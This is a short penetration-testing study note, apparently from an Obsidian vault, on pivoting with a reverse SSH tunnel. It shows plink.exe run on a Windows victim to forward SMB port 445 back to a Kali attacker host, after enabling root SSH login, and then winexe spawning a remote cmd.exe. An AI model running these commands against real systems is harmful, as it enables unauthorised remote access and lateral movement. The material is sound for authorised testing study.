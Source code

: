 https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

Transfer to vic:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[4._File Transfers#Certutil]]

on Kali:
```bash - kali
apt install ssh
```

```bash - kali
mousepad /etc/ssh/sshd_config
```

Change line 33 to:

PermitRootLogin yes

![[Pasted image 20220203142521.png]]

> ALSO, if not working, try changing port to something other than 22 on line 14, then restarting ssh service.

```bash - kali
service ssh restart
```

```command prompt - windows
plink.exe -l kali -pw kali -R 445:127.0.0.1:445 $KALI -P 22
```

Now you'll see you're back in your Kali box!

![[Pasted image 20220203144819.png]]

Use winexe to login through local port and spawn cmd:
```bash - kali
winexe -U $USER%$PASSWORD //127.0.0.1 "cmd.exe"
```

Hit enter a few times:
